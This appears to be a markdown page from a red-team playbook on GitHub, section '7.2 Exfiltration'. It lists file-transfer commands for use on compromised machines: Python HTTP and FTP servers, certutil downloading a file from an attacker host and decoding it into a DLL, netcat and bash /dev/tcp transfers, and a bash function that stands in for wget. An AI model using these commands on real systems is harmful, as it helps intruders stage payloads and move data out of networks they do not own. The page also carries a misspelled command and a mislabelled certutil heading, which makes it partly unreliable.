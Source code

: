 # 7.2 Exfiltration

## Table of Contents

- [File Transfer](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#File-Transfer)
  - [Python SimpleHTTPServer](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Python-SimpleHTTPServer)
  - [Python3 HTTP Server](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Python3-HTTP-Server)
  - [Simple FTP Server](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Simple-FTP-Server)
  - [Certutil](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Certutil)
  - [Transfering Files with Bash](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Transfering-Files-with-Bash)
  - [wget Replacement in Bash]()

### File Transfer

#### Python SimpleHTTPServer

```c
python -m SimpleHTTPServer <LPORT>
```

#### Python3 HTTP Server

```c
pyhton3 -m http.server <LPORT>
```

#### Simple FTP Server

```c
python -m pyftpdlib -p 21 --write
```

#### Certutil

##### Base64 Encoding

```c
certutil.exe -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
```

##### Base64 Decoding

```c
certutil.exe -decode <FILE>.txt <FILE>.dll
```

#### Transfering Files with Bash

```c
nc -lnvp <LPORT> < <FILE>
```

```c
bash -c 'cat < /dev/tcp/<LHOST>/<LPORT>' > <FILE>
```

#### wget Replacement in Bash

Copy the following script directly to the shell.

```c
function __wget() {
    : ${DEBUG:=0}
    local URL=$1
    local tag="Connection: close"
    local mark=0

    if [ -z "${URL}" ]; then
        printf "Usage: %s \"URL\" [e.g.: %s http://www.google.com/]" \
               "${FUNCNAME[0]}" "${FUNCNAME[0]}"
        return 1;
    fi
    read proto server path <<<$(echo ${URL//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
    [[ $DEBUG -eq 1 ]] && echo "HOST=$HOST"
    [[ $DEBUG -eq 1 ]] && echo "PORT=$PORT"
    [[ $DEBUG -eq 1 ]] && echo "DOC =$DOC"

    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.1\r\nHost: ${HOST}\r\n${tag}\r\n\r\n" >&3
    while read line; do
        [[ $mark -eq 1 ]] && echo $line
        if [[ "${line}" =~ "${tag}" ]]; then
            mark=1
        fi
    done <&3
    exec 3>&-
}
```

### Previous

- [7 Actions-on-Objective](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7-Actions-on-Objective.md)
- [7.1 Post Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.1-Post-Exploitation.md)
